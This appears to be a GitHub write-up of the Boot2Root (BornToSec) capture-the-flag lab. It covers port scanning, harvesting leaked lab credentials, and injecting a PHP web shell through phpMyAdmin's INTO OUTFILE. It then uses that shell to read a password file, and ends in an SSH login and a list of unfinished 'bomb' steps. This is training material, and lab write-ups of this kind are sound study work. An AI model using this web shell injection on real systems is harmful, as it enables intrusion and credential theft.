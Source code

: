  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap <IP>.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP we're going to use DIRB to gather information about the file structure
[DIRB!](https://sourceforge.net/projects/dirb/files/)
DIRB is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/

-------------------------------------------------------------------------------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

-------------------------------------------------------------------------------------------

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------

Now lets login to phpmyadmin

login: root
password: Fg-'kKXBj87E:aJ$


Following [This tutorial on PHPmyadmin exploitation!](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

We're going to inject a php file that allows us to run shell commands within the browser.
By trying the differents subfolders of the forum we finally uncover that phpmydamin has writing rights to templates_c:

```SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";```

"/var/www/html/" because this is where websites are normally stored on a server.


![phpmyadmin](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

---------------------------------------------------------------------------------------------

* Funny thing is we can now navigate the server through the web browser
```https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home/```

From there we uncover the presence of an intersting folder called ***LOOKATME*** inside the home folder that contains a file called password

```https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password```

this gives us the pair: ```lmezard:G!@M6f4Eatau{sF"```

----------------------------------------------------------------------------------------------

Let's try that in the ftp access [ftp!](ftp://192.168.99.100/)

It works !

There's a file called "fun" and README file that says : ```Complete this little challenge and use the result as password for user 'laurie' to login in ssh```

-----------------------------------------------------------------------------------------------

## Puzzles to root access

fun turns out to be an archive, which when uncompressed shows multiples .pcap files (packets captured by a wireshark type sniffer). using ```grep return```  we can get 12 files each containing a character. By ordering the files in ascending order based on the comments values we get: "Iheartpawnage" 
A hint in the fun file also tells us to sha256 the result, which gives: "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"  

We can finally access to laurie's account to the server:

```laurie@192.168.99.100```
"330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
![ssh](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/ssh.png)

------------------------------------------------------------------------------------------------

There we find a README hinting that solving the bomb wil grant us access to thor's shh access

1. Bomb step 1
2. Bomb step 2
3. Bomb step 3
4. Bomb step 4
5. Bomb step 5
6. Bomb step 6









Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

